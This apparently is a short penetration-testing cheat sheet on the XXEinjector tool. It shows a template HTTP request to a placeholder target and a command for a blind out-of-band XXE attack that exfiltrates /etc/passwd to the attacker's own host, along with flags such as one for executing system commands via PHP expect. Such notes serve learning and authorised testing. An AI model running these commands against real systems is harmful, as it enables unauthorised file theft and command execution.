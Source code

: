 # [XXEInjector](https://github.com/enjoiz/XXEinjector)
***
#### XXE injector is a tool that can be used to automate the process of XXE injection , such as basic XXE , CDATA source exfiltration, error-based XXE, and blind OOB XXE.

#### First clone the tool to our machine:
```bash
$ git clone https://github.com/enjoiz/XXEinjector.git
```

#### Then we copy the HTTP request from Burp and write it to a file , without including the full XML data, and write `XXEINJECT` after it:
```http request
POST /vulnerable/leet.php HTTP/1.1
Host: 12.34.56.78
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://12.34.56.78
Referer: http://12.34.56.78/vulnerable/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

#### Finally, we can run the tool to perform a blind OOB XXE:
```bash
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=81 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

#### As we are base64 encoding the data, it won't be printed , so in order to get the exfiltrated data we should check the `Logs` folder under the tool:
```bash
cat Logs/12.34.56.78/etc/passwd.log 
```

### Useful flags:
* `--host` = Our IP
* `--httpport` = Our Port
* `--file` = File with the request
* `--path` = File we want to read
* `--oob=http` = Perform OOB attack
* `--phpfilter` = Add php filter (base64)
* `--direct` = Direct exploitation
* `--expect` = Use PHP expect extension to execute arbitrary sys command


